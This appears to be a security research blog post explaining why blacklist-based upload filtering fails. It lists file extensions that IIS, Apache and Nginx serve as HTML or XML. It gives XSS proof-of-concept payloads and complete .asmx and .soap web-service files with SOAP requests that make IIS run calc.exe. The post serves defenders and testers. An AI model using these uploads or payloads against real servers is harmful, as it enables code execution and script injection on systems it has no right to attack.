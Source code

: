 ```yaml
---
layout: post
title: Why BlackList < WhiteList
permalink: ExtensionsOverview
---
```


<div style="text-align:center"><img src = "/public/cat.png"/></div>
Often, when you write the code, which is responsible for file uploading, you check the extensions of downloaded file with using “whitelist” (when you can upload only files with certain extensions) or “blacklist” (when you can upload any files which are not included in the list).



<!--more-->

After the [@ldionmarcil’s](https://twitter.com/ldionmarcil) [post](https://twitter.com/ldionmarcil/status/922553386645454850), I decided to understand how popular web-servers interact with various types of extensions. Firstly, I was interested in which content-type is returned by the web-server on different file types. 

Developers usually include only well-known and obvious extensions in the blacklist. In the article, I want to consider not the wide-spreading file types.

For demonstration PoC, I used the following payloads:
* Basic XSS payload: ```<script>alert(1337)</script>```
* XML-based XSS payload: ```<a:script xmlns:a="http://www.w3.org/1999/xhtml">alert(1337)</a:script>```

Below I’ll show the results of this little research.

***

## IIS web server

By default, IIS responds with the text/html content-type on the file types, which presented in list below:

Extensions with basic vector:
* .cer
* .hxt
* .htm

![alt text](/public/cer_xss.jpg "cer xss")

Therefore, it is possible to paste the basic XSS vector in the uploaded file, and we will get an alert box in browser after opening the document.
The list below includes extensions on which IIS responds with the content-type which allow to execute XSS via XML-based vector.

Extensions with XML-based vector:
* .dtd
* .mno
* .vml
* .xsl
* .xht
* .svg
* .xml
* .xsd
* .xsf
* .svgz
* .xslt
* .wsdl
* .xhtml

![alt text](/public/mno_xss.png "mno xss")

By default, IIS also supports SSI, however exec section is prohibited for the security reasons

Extensions for SSI:
* .stm
* .shtm
* .shtml

![alt text](/public/SSI_example.png "SSI sorce code")

More detailed information about SSI is written in the [post](https://twitter.com/ldionmarcil/status/922561177636311041) by [@ldionmarcil](https://twitter.com/ldionmarcil)

In addition:

There are also two other interesting extensions (.asmx and .soap) that could lead to arbitrary code execution. It was discovered in collaboration with Yury Aleinov ([@YuryAleinov](https://twitter.com/YuryAleinov)).

#### Asmx extension

1. If you can upload file with .asmx extension, it can lead to arbitrary code execution. For example, we took file with the following content:

   ```csharp
<%@ WebService Language="C#" Class="MyClass" %>
using System.Web.Services;
using System;
using System.Diagnostics;


	[WebService(Namespace="")]
	public class MyClass : WebService 
	{
		[WebMethod]
		public string Pwn_Function()
		{
			Process.Start("calc.exe");
			return "PWNED";
		}
	}

   ```
   ![alt text](/public/asmx_source_example.png "Asmx sorce code")
  
2. Then we sent POST request to the uploaded document:

   ```http
   POST /1.asmx HTTP/1.1
   Host: localhost
   Content-Type: application/soap+xml; charset=utf-8
   Content-Length: 287
   
   <?xml version="1.0" encoding="utf-8"?>
   <soap12:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap12="http://www.w3.org/2003/05/soap-envelope">
     <soap12:Body>
       <Pwn_Function/>
     </soap12:Body>
   </soap12:Envelope>
   ```
   ![alt text](/public/asmx_calc_example.png "Run calc")
   
   
3. As the result, IIS executed "calc.exe"

###### Soap extension

Contents of uploaded file with .soap extension:
   ```csharp
<%@ WebService Language="C#" Class="MyClass" %>
using System.Web.Services;
using System;

public class MyClass : MarshalByRefObject
{
    public MyClass() { 
	    System.Diagnostics.Process.Start("calc.exe");
	}		     
}

   ```
SOAP request:
   ```http
POST /1.soap HTTP/1.1
Host: localhost
Content-Length: 283
Content-Type: text/xml; charset=utf-8
SOAPAction: "/"

<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <MyFunction />
  </soap:Body>
</soap:Envelope>

   ```
   ![alt text](/public/soap_rce.png "Run calc")
   
***

## Apache (httpd or Tomcat)

Extensions with basic vector:
* .shtml
* .html.de or .html.xxx (xxx – any characters)*

Extensions with XML-based vector:
* .rdf 
* .xht 
* .xml 
* .xsl 
* .svg 
* .xhtml 
* .svgz 

\* if there are any characters after “.html.” in the extension, Apache will respond with text/html content-type.

![alt text](/public/html_random.png "xss")

In addition:

Apache returns response without Content-type header on a large number of files with different extensions, which allows an XSS attack, because browser often decides how to handle this page by itself. [This article](http://pwndizzle.blogspot.ru/2015/07/xss-extensions-and-content-types.html) includes detailed information about this question. For example, files with the .xbl and .xml extension are processed similar in Firefox (if there is no Content-Type header in the response), so there is the possibility of exploiting XSS using XML-based vector in this browser.

***

## Nginx

Extensions with basic vector:
* .htm

Extensions with XML-based vector:
* .svg
* .xml
* .svgz

***

>If you find mistakes or you have additional information, please DM me in twitter.
